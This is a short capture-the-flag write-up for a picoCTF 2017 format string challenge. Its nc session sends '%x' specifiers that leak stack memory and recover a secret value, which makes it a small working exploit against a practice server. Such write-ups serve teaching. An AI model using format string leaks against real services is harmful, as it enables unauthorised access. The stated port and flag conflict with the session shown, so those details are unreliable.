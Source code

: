 # PicoCTF_2017: I've got a Secret

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Hopefully you can find the right format for my [secret](secret.c)! Source. Connect on shell2017.picoctf.com:55189.

**Hint:**

>This is a beginning format string attack.

## Write-up
A classic format string attack, which means passing the conversion string in the input field to get the memory address of the stack.

By runnin

    $ nc shell2017.picoctf.com 39169
	Give me something to say!
	%x %x %x %x %x %x %x %x
	40 f7fc7c20 8048792 1 ffffdd34 4ef971b5 3 f7fc73c4
	Now tell my secret in hex! Secret: f7fc7c20
    As my friend says,"You get nothing! You lose! Good day, Sir!"

    $ nc shell2017.picoctf.com 39169
	Give me something to say!
	%x %x %x %x %x %x %x %x
	40 f7fc7c20 8048792 1 ffffdd34 4ef971b5 3 f7fc73c4
	Now tell my secret in hex! Secret: 4ef971b5
	c9fd8f8a1dcaee8962bc60cb516a79a5
	Wow, you got it!

Therefore, the flag is `a18450ba7aaa8c085c522cdef6ab35ab`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIwOTYwNTg4NF19
-->